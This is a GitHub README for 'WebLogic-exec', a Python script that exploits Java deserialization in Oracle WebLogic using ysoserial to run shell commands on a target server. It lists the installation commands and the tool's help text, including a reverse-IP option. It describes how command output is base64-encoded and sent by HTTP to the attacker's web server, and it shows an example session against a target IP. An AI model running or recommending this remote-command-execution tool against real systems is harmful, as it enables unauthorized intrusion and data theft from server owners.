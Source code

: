 # WebLogic-exec
WebLogic serialized object command execution

full credit and details at the following link:

https://github.com/frohoff/ysoserial

http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/

this script lets you execute commands like in a shell, exploiting java object deserialization vulnerability.
commands output is saved into temporary file in target server, base64 encoded, splitted and sent through http request to python web server, where it is decoded and displayed.

ysoserial is required; the latest jar file could be downloaded from JitPack.

## Installation
```shell
git clone https://github.com/9andrea1/WebLogic-exec
cd WebLogic-exec
wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
mv ysoserial-master-SNAPSHOT.jar ysoserial.jar
```

## Help
```shell
root@kali:~/Desktop/WebLogic-exec# python cmd_shell.py -h

Usage: cmd_shell.py [options]

Serialized objects command execution

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        target ip
  -p PORT, --port=PORT  target port
  -r REVERSE, --reverse=REVERSE
                        cmd exec reverse ip (default my ip) 
```

## Example
```shell
root@kali:~/Desktop/WebLogic-exec# python cmd_shell.py -t 192.168.1.106 -p 8180

$> pwd
/var/www/html/

$> exit
Bye!
```
